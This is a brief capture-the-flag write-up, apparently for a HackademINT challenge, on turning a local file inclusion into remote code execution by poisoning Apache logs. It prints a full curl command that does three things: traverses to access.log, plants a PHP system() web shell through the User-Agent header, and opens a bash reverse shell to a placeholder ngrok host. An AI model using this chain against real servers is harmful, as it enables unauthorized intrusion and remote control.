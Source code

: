 #Poising log

First we need an LFI
The get parameter **read** allows to read any file.

Then, for the RCE, we use Apache logs. We inject code through the User-Agent

Doesn't work but the idea is here ...
```bash
curl 'http://challs2.hackademint.org:13405//index.php?read=../../../var/log/apache2/access.log&c=bash+-i+>%26+/dev/tcp/<NGROK TCP>/<PORT>+0>%261' -H "User-Agent: <?php system(\$_GET['c']); ?>"
```
